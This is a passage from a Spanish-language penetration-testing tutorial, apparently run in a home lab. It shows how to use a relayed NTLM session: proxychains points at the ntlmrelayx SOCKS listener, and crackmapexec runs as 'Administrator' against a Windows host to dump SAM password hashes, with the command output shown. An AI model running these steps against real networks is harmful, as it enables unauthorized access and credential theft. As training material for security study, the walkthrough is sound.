 Ahora para poder interactuar con esta sesion, vamos a utilizar `proxuchange` que viene en `kali` de la siguiente forma en otra terminal:

```shell
sudo nano /etc/proxychains4.conf

#Dentro del nano
socks4  127.0.0.1 1080
```

Lo que estamos haciendo con esto es redirigir todo el trafico de red de la herramienta que ejecutemos a nuestro `localhost` en el puerto `1080` que es justamente donde esta escuchando este `NTLM Relay`.

Ahora vamos a utilizar la herramienta `crackmapexec` pero utilizando la herramienta `proxychange4`, lo que haremos es que redirigiremos ese trafico de red que va a generar `crackmapexec` o la herramienta que pongamos despues de `proxychange4` y lo va hacer en `127.0.0.1 1080` que es donde tenemos la sesion activa:

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp'
```

Tendremos que poner el usuario el cual nos aparezca donde capturo en la sesion de `ntlmrelayx` en mi caso fue el `Administrador`.

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
```

Con esto estamos viendo que se esta ejecutando correctamente, por lo que ahora vamos a mandar las peticiones que queramos como si fueramos el usuario `Administrador` en este caso:

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp' -p '1234' --sam
```

En el `-p` especificamos el `password` pero en este caso podremos poner lo que sea ya que estamos autenticados y cualquier palabra nos servira como contraseña ya que lo `omitira` por asi decirlo.

En este caso lo que haremos sera volcar la `SAM` con esta sesion de forma `proxyficada`.

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
SMB         192.168.5.208   445    WS01             [+] corp\Administrator:1234 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping SAM hashes
SMB         192.168.5.208   445    WS01             Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```